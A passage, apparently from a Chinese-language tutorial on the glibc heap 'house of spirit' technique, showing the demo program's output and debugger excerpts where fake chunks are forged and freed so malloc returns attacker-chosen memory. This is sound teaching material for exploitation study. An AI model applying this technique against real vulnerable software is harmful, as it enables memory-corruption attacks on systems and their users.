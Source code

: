
看完源代码可以发现,我们正常的hos是需要伪造两个chunk的,而tcache则不需要伪造下一个chunk,但是虽然本例中需要伪造两个chunk,但是我们所伪造的第二个chunk是可以不用为fastbin大小的chunk的

### <a class="reference-link" name="%E8%BF%90%E8%A1%8C%E7%BB%93%E6%9E%9C"></a>运行结果

```
This file demonstrates the house of spirit attack.
Calling malloc() once so that it sets up its memory.
We will now overwrite a pointer to point to a fake 'fastbin' region.
This region (memory of length: 80) contains two chunks. The first starts at 0x7ffe23a56258 and the second at 0x7ffe23a56298.
This chunk.size of this region has to be 16 more than the region (to accommodate the chunk data) while still falling into the fastbin category (&lt;= 128 on x64). The PREV_INUSE (lsb) bit is ignored by free for fastbin-sized chunks, however the IS_MMAPPED (second lsb) and NON_MAIN_ARENA (third lsb) bits cause problems.
... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end. 
The chunk.size of the *next* fake region has to be sane. That is &gt; 2*SIZE_SZ (&gt; 16 on x64) &amp;&amp; &lt; av-&gt;system_mem (&lt; 128kb by default for the main arena) to pass the nextsize integrity checks. No need for fastbin size.
Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, 0x7ffe23a56258.
... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.
Freeing the overwritten pointer.
Now the next malloc will return the region of our fake chunk at 0x7ffe23a56258, which will be 0x7ffe23a56260!
malloc(0x30): 0x7ffe23a56260
```

### <a class="reference-link" name="%E5%85%B3%E9%94%AE%E8%B0%83%E8%AF%95"></a>关键调试

本例断点下在了

```
► 11     fprintf(stderr, "We will now overwrite a pointer to point to a fake 'fastbin' region.n");
   12     unsigned long long *a;

   20     fake_chunks[1] = 0x40; // this is the size
 ► 22     fprintf(stderr, "The chunk.size of the *next* fake region has to be sane. That is &gt; 2*SIZE_SZ (&gt; 16 on x64) &amp;&amp; &lt; av-&gt;system_mem (&lt; 128kb by default for the main arena) to pass the nextsize integrity checks. No need for fastbin size.n");

   24     fake_chunks[9] = 0x1234; // nextsize
   25 
 ► 26     fprintf(stderr, "Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, %p.n", &amp;fake_chunks[1]);

 ► 28     a = &amp;fake_chunks[2];

 ► 31     free(a);
```
